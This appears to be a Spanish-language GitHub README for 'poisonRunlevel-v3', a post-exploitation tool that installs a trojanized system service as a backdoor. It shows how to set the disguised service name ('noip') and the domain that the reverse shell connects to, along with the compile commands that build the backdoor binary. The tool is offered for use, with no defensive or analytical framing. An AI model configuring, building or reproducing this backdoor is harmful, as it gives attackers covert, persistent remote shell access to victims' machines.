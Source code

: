 # poisonRunlevel-v3
Post-Exploitation - Servicio troyanizado - Backd00r
<h4>poisonRunlevel v3. Demo</h4>
https://www.youtube.com/watch?v=f_HsdmacLNI



Editar:
<pre>
src/poisønRunLevel.c ## editar linea para cambiar nombre de servicio (backdoor)
    34	#define TROY "noip" // set nombre servicio troyano
</pre>

<pre>
src/backd00r.c ## setear nombre de dominio donde conectara reverse shell
    14	#define DOMINIO "nombredominio.cl"
</pre>

<pre>
Makefile ## editar Makefile nombre de salida (-o) de backdoor
     9		gcc src/backd00r.c -o noip 
</pre>

Compilar:
<pre>
[p0fk@blackbell poisonRunlevel-v3]$ make
rm -f opendoor poison unit.service
gcc src/backd00r.c -o noip 
gcc -std=c99 -std=gnu99 src/poisønRunLevel.c -o poison -Ilib/ 
</pre>
